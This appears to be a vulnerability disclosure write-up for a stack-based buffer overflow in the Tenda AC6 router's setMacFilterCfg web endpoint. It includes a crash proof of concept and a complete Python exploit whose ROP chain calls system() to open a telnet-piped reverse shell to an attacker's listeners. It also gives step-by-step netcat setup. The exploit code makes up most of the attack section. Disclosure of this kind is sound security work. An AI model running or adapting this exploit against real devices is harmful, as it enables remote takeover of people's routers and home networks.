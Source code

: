 # CVE Submission: Stack-Based Buffer Overflow in Tenda AC6V1.0(firmware V15.03.05.19) setMacFilterCfg

## Summary
A stack-based buffer overflow vulnerability in the Tenda AC6V1.0 router (firmware V15.03.05.19) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_BE73C` function (aliased as `parse_macfilter_rule`), which uses unsafe `strcpy` operations without bounds checking, enabling stack corruption.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
## Details
- **Vendor**: Tenda
- **Product**: Tenda AC6V1.0 
- **Firmware Version**: V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681](https://tenda.com.cn/material/show/2681)
- **Component**: `/goform/setMacFilterCfg` (functions `formSetMacFilterCfg` and `sub_BE73C`)
- **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
- **CVE ID**: Pending
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description
The vulnerability exists in the `formSetMacFilterCfg` function, which processes HTTP POST requests to `/goform/setMacFilterCfg`. The `deviceList` parameter is passed to `sub_BD758` and then to `sub_BE73C` (parse_macfilter_rule). The portion after `\r` is copied into a fixed-size buffer using `strcpy(a2, src)` without length validation. If the input exceeds the buffer size, it overflows the stack, potentially overwriting return addresses or other critical data.
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
This allows attackers to:
- Cause a denial of service (DoS) by crashing the router.
- Achieve remote code execution (RCE) by crafting a payload with ROP gadgets.



## PoC: Python Exploit Script
```python
from pwn import *
import requests

payload = cyclic(1000)  # 1000-byte cyclic pattern to overflow buffer
url = "http://192.168.xxx.xxx/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)  # Double POST to bypass potential checks
print(response.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## exp
Open two terminals and execute nc -l 4444 and nc -l 5555 respectively. One is used for executing commands, and the other for echoing commands. Then open a third terminal to run the exp：
```python
from pwn import *
import requests

url = "http://(target_ip)/goform/setMacFilterCfg"
libc_base=0xff58b000 #it will be diffirent
libc=ELF("/lib/libc.so.0") #your own path
print(hex(libc.sym['system']))
#print(hex(libc.sym['puts']))
system=libc_base+libc.sym["system"]
#puts = libc_base+libc.sym['puts']
mov_r0 = libc_base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = libc_base+0x00018298 # pop {r3, pc};
#payload1 = cyclic(176)+p32(pop_r3)+p32(puts)+p32(mov_r0)+b"hacked by n0ps1ed\x00"
payload2 = cyclic(176)+p32(pop_r3)+p32(system)+p32(mov_r0)+b"telnet 192.168.xx.xxx 4444 | /bin/sh | telnet 192.168.xx.xxx 5555\x00"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload2}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)

```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

## Impact
- **Denial of Service (DoS)**: The oversized payload crashes the router’s web server, disrupting network connectivity and management access.
- **Remote Code Execution (RCE)**: With a crafted ROP chain, attackers can execute arbitrary commands.

